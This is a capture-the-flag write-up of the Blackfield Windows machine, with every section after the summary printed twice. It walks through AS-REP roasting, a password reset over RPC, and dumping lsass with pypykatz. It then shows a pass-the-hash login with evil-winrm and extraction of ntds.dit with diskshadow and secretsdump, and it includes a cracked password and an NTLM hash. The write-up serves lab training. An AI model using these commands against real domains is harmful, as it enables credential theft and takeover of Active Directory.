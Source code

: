 ```yaml
---
title: Blackfield 
category: writeup
tags: hackthebox
---
```


# Summary
Blackfield is a hard windows machine that involves initially gaining access as anonymous user to the profiles$ share and using all the usernames with GetSPNUsers.py giving us the hash for the user support which can be used to log into rpcclient and change the password for the user audit2020. Using the new credentials we authenticate with SMB again and grab the forensics share and the lsass.DMP file which contains working NTLM hash of the user svc_backup. Using which we login through evil-winrm. Abusing the SeBackupPrivilege and SeRestorePrivilege we can use diskshadow to get the ntds.dit and system hive using which we can dump the administrator hash and psexec in.

# NMAP:

NMAP scan reveals the following :

```
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-06 17:05:08Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
```

## SMB - 1

Attempting to authenticate with a anonymous:anonymous gives us access to the shares.

Using GetUserSPNs.py and the custom list of users we generate using the folders in the SMB profiles$ share we get the aseproast hash for the user support and cracking the hash reveals the password of #00^BlackKnight.

## RPC

Using the credentials we log in to RPC and follow the [https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html) guide to change the password for the user audit2020.

## SMB - 2

Checking the SMB share forensics we find a lsass.DMP file in the memory_analysis folder which most likely contains the hash for the current user. Therefore, using the tool pypykatz we are able to retrieve the hash for the user

```
pypykatz lsa minidump lsass.dmp
```

Using the hash along with evil-winrm gives us a shell as svc_backup.

```
evil-winrm -i 10.10.10.192 -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup
```

# Privilege Escalation

Checking the privileges for the current user reveals that the user svc_backup has the SeRestorePrivilege and the SeBackupPrivilege which can be abused to own a file and backup a file.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

In order to abuse the privileges we use the following  [https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9](https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9%20to%20get%20the%20ntds.dit).

Make a temp directory and add diskshadow.txt. Running diskshadow.txt will give an error and in order to avoid it a space character needs to be added to the end of each line.

```
$ cat diskshadow.txt
set context persistent NOWRITERS 
add volume c: alias someAlias 
create 
expose %someAlias% z: 
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\temp\ntds.dit 
delete shadows volume %someAlias% 
reset

------- Inside Evil-winrm -------
PS > cd C:\ ; mkdir temp ; cd temp
PS > upload diskshadow.txt
PS > diskshadow.exe /s c:\temp\diskshadow.txt
PS > cd z:/windows/ntds
PS > download ntds.dit
PS > reg.exe save hklm\system c:\temp\system.bak
PS > download c:\temp\system.bak

$ secretsdump.py -ntds ntds.dit -system system.bak LOCAL
```

This gives us an administrator hash which can be used with psexec.py to gain admin on the machine.

# NMAP:

NMAP scan reveals the following :

```
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-06 17:05:08Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
```

## SMB - 1

Attempting to authenticate with a anonymous:anonymous gives us access to the shares.

Using GetUserSPNs.py and the custom list of users we generate using the folders in the SMB profiles$ share we get the aseproast hash for the user support and cracking the hash reveals the password of #00^BlackKnight.

## RPC

Using the credentials we log in to RPC and follow the [https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html) guide to change the password for the user audit2020.

## SMB - 2

Checking the SMB share forensics we find a lsass.DMP file in the memory_analysis folder which most likely contains the hash for the current user. Therefore, using the tool pypykatz we are able to retrieve the hash for the user

```
pypykatz lsa minidump lsass.dmp
```

Using the hash along with evil-winrm gives us a shell as svc_backup.

```
evil-winrm -i 10.10.10.192 -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup
```

# Privilege Escalation

Checking the privileges for the current user reveals that the user svc_backup has the SeRestorePrivilege and the SeBackupPrivilege which can be abused to own a file and backup a file.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

In order to abuse the privileges we use the following  [https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9](https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9%20to%20get%20the%20ntds.dit).

Make a temp directory and add diskshadow.txt. Running diskshadow.txt will give an error and in order to avoid it a space character needs to be added to the end of each line.

```
$ cat diskshadow.txt
set context persistent NOWRITERS 
add volume c: alias someAlias 
create 
expose %someAlias% z: 
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\temp\ntds.dit 
delete shadows volume %someAlias% 
reset

------- Inside Evil-winrm -------
PS > cd C:\ ; mkdir temp ; cd temp
PS > upload diskshadow.txt
PS > diskshadow.exe /s c:\temp\diskshadow.txt
PS > cd z:/windows/ntds
PS > download ntds.dit
PS > reg.exe save hklm\system c:\temp\system.bak
PS > download c:\temp\system.bak

$ secretsdump.py -ntds ntds.dit -system system.bak LOCAL
```

This gives us an administrator hash which can be used with psexec.py to gain admin on the machine.

